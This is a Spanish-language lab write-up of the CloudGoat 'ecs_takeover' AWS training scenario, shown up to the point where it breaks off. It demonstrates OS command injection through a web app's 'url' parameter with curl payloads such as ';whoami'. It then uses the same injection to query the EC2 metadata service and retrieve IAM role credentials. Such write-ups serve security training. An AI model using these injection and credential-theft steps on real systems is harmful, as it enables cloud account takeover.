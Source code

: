 ```yaml
---
description: 'Lab: CloudGoat'
---
```


# ECS\_takeover

## Laboratorio

En este escenario se empieza realizando un pentesting de caja negra contra un aplicativo web alojado en una instancia EC2. Luego de identificar una vulnerabilidad que permite RCE sobre el aplicativo web se abusará del servicio de metadatos de la instancia y del docker. Para posteriormente, comprometer una de las tareas que está corriendo en un cluster al que se tiene acceso por medio de la instancia comprometida.

{% hint style="danger" %}
El desarrollo de este ejercicio puede llegar a consumir recursos económicos dentro de las cuentas de AWS.
{% endhint %}

{% embed url="https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/ecs_takeover" %}

<mark style="color:green;">**Objetivo**</mark>: Obtenga acceso al contenedor "bóveda" y recupere la bandera.

### Configuración inicial

Checar instalación de CloudGoad en:

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

Lanzar el escenario con:

```bash
./cloudgoat.py create ecs_takeover
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Explotación

Al finalizar la preparación del laboratorio se arroja un sito web: [http://ec2-54-236-32-165.compute-1.amazonaws.com/](http://ec2-54-236-32-165.compute-1.amazonaws.com/) el cual contiene un aplicativo como el siguiente:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Luego de ingresar una URL válida como www.google.com se identificó que se puede agregar un parámetro URL sobre el enlace original, y además se ve como el aplicativo web incrusta el código HTML sobre el DOM de la página.

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Realizando una inyección de parámetros se observó que el aplicativo responde comandos de sistema operativo:

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bls+-l"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Haciendo uso de la vulnerabilidad de code injection se puede observar que el aplicativo está corriendo bajo el usuario de root:

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bwhoami"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

Usando el comando env podemos listas las variables de entorno del sito:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Listando las interfaces de red existentes se encontró una interfaz de red docker, lo cual indica el uso de contenedores

```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bip+a+show"
```

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Listando los contenedores con `docker ps -a` se encontraron los siguientes contenedores:

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

| Contenedor                                                                                 | ID           |
| ------------------------------------------------------------------------------------------ | ------------ |
| ecs-cg-ecs-takeover-ecs\_takeover\_cgidjozev9f9bv-vulnsite-1-vulnsite-bcf8beafe588ccca8a01 | 7bfa57af37b6 |
| ecs-cg-ecs-takeover-ecs\_takeover\_cgidjozev9f9bv-privd-1-privd-a2bfc681b6dcf9d55500       | 64ca7db98975 |
| ecs-agent                                                                                  | aaead8b98f5f |

Se puede generar una rever shell en el sitio y tener mayores capacidades, para fines didácticos solo se va a consumir los metadatos del rol de la instancias ec2 y se procedesa a usar las credenciales de acceso

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bcurl+http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bcurl+http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ecs-takeover-ecs_takeover_cgidjozev9f9bv-ecs-agent"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>








